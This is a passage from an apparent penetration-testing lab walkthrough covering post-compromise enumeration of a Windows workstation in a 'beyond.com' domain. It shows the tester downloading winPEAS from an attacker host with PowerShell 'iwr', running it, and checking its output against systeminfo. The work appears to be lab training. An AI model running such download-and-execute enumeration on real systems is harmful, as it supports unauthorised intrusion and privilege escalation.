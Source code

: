 ```powershell
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
{% endcode %}

## Enumerating the Internal Network

### Situational Awareness

Grabbing and running winPEAS:

{% code overflow="wrap" %}
```powershell
PS C:\Windows\System32\WindowsPowerShell\v1.0> cd C:\Users\marcus
cd C:\Users\marcus

PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe

PS C:\Users\marcus> .\winPEAS.exe
.\winPEAS.exe
...
```
{% endcode %}

WinPEAS is not always correct, validate information when you can:

```powershell
// Result from winPEAS
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional

// Result from systeminfo
PS C:\Users\marcus> systeminfo
systeminfo

Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
```

Using the network information and known hosts to update our **computers.txt**:
